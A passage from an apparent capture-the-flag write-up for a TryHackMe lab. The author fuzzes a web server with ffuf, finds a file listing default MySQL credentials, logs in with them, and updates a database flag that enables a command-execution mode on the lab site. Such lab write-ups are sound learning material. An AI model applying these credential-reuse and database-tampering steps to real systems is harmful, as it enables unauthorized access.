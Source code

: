 
- Used the ffuf command to look for something else 
```

┌─[glack@parrot]─[~/Desktop/THM/lunizz]
└──╼ $ffuf -u http://10.10.182.144/FUZZ.txt -w /usr/share/wordlists/small.txt:FUZZ

```

got a hit
`/instructions.txt`

```
Made By CTF_SCRIPTS_CAVE (not real)

Thanks for installing our ctf script

#Steps
- Create a mysql user (runcheck:CTF_script_cave_changeme)
- Change necessary lines of config.php file

Done you can start using ctf script

#Notes
please do not use default creds (IT'S DANGEROUS) <<<<<<<<<---------------------------- READ THIS LINE PLEASE
```

- we are able to login to mysql as `(runcheck:CTF_script_cave_changeme)`

- Used the following commands in `mysql` shell
```
MySQL [(none)]> SHOW DATABASES;

MySQL [(none)]> use runornot;

MySQL [runornot]> SHOW TABLES;

MySQL [runornot]> SELECT * FROM runcheck;

SELECT * FROM USER_PRIVILEGES;

SELECT * FROM PARAMETERS;

SELECT * FROM TABLES;

```

- USed this command to change the value of `run` column
```
MySQL [runornot]> UPDATE runcheck SET run = 1;
```

- Now we can see that `http://10.10.182.144/whatever/` here the `Command Executer Mode :1` this is changed from 0 to 1
